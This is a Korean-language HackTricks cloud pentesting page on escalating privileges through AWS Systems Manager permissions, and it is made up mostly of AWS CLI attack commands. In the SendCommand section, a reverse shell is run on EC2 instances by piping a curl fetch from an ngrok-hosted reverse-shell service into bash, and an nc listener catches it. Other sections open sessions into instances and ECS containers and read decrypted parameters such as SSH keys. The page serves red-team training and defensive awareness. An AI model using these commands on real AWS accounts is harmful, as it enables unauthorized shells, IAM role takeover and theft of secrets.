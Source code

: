 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

SSM에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** 권한이 있는 공격자는 **Amazon SSM Agent가 실행 중인 인스턴스에서 명령을 실행하고** 그 안에서 실행 중인 **IAM 역할을 손상시킬 수 있습니다.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
EC2 인스턴스가 이미 침해된 상태에서 권한 상승을 위해 이 기술을 사용하는 경우, 다음과 같이 로컬에서 rev shell을 캡처할 수 있습니다:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접적인 권한 상승.

### `ssm:StartSession`

**`ssm:StartSession`** 권한이 있는 공격자는 **Amazon SSM 에이전트가 실행 중인 인스턴스에서 SSH와 유사한 세션을 시작할 수 있으며**, **그 안에서 실행 중인 IAM 역할을 손상시킬 수 있습니다.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
세션을 시작하려면 **SessionManagerPlugin**이 설치되어 있어야 합니다: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접 권한 상승.

#### ECS에 대한 권한 상승

**ECS 작업**이 **`ExecuteCommand`가 활성화된 상태**로 실행될 때, 충분한 권한을 가진 사용자는 `ecs execute-command`를 사용하여 **컨테이너 내에서 명령을 실행**할 수 있습니다.\
[**문서**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)에 따르면, 이는 “_exec_“ 명령을 시작하는 데 사용하는 장치와 SSM 세션 관리자와 함께 대상 컨테이너 간에 안전한 채널을 생성하여 수행됩니다. (이 작업을 수행하려면 SSM 세션 관리자 플러그인이 필요합니다)\
따라서 `ssm:StartSession` 권한이 있는 사용자는 해당 옵션이 활성화된 ECS 작업 내에서 **쉘을 얻을 수 있습니다**.
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**잠재적 영향:** `ExecuteCommand`가 활성화된 실행 중인 작업에 연결된 `ECS` IAM 역할로의 직접적인 권한 상승.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** 권한이 있는 공격자는 **Amazon SSM Agent**가 실행 중인 인스턴스에서 **연결이 끊긴** SSM 세션 상태로 SSH와 유사한 세션을 **재시작**할 수 있으며, 그 안에서 실행 중인 **IAM 역할을 타협**할 수 있습니다.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**잠재적 영향:** SSM 에이전트가 실행 중인 인스턴스에 연결된 EC2 IAM 역할로 직접적인 권한 상승.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

언급된 권한을 가진 공격자는 **SSM 매개변수**를 나열하고 **일반 텍스트로 읽을 수** 있습니다. 이러한 매개변수에서 종종 **민감한 정보**를 찾을 수 있습니다. 예를 들어 SSH 키나 API 키가 포함될 수 있습니다.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**잠재적 영향:** 매개변수 내에서 민감한 정보를 찾습니다.

### `ssm:ListCommands`

이 권한을 가진 공격자는 모든 **명령**을 나열할 수 있으며, 그 안에서 **민감한 정보**를 찾을 수 있기를 바랍니다.
```
aws ssm list-commands
```
**잠재적 영향:** 명령줄 내에서 민감한 정보를 찾습니다.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

이 권한을 가진 공격자는 모든 **명령**을 나열하고 **출력**을 읽을 수 있으며, 이를 통해 **민감한 정보**를 찾을 수 있습니다.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**잠재적 영향:** 명령어 출력에서 민감한 정보를 찾습니다.

### Codebuild

SSM을 사용하여 빌드 중인 codebuild 프로젝트에 접근할 수도 있습니다:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
